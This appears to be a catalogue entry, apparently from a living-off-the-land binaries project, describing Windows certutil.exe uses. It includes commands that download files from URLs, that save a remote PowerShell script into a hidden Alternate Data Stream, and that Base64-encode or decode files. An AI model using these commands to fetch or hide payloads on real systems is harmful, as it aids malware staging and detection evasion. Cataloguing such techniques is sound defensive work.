 ```yaml
---
Name: Certutil.exe
Description: Download, Add ADS, Decode, Encode
Author: ''
Created: '2018-05-25'
Categories: []
Commands:
  - Command: certutil.exe -urlcache -split -f http://7-zip.org/a/7z1604-x64.exe 7zip.exe
    Description: Download and save 7zip to disk in the current folder.
  - Command: certutil.exe -urlcache -split -f https://raw.githubusercontent.com/Moriarty2016/git/master/test.ps1 c:\\temp:ttt
    Description: Download and save a PS1 file to an Alternate Data Stream (ADS).
  - Command: certutil -encode inputFileName encodedOutputFileName \ncertutil -decode encodedInputFileName decodedOutputFileName
    Description: Commands to encode and decode a file using Base64.
Full Path:
  - c:\windows\system32\certutil.exe
  - c:\windows\sysWOW64\certutil.exe
Code Sample: []
Detection: []
Resources:
  - https://twitter.com/Moriarty_Meng/status/984380793383370752
  - https://twitter.com/mattifestation/status/620107926288515072
Notes: Thanks to Matt Graeber - @mattifestation, Moriarty - @Moriarty2016
---
```


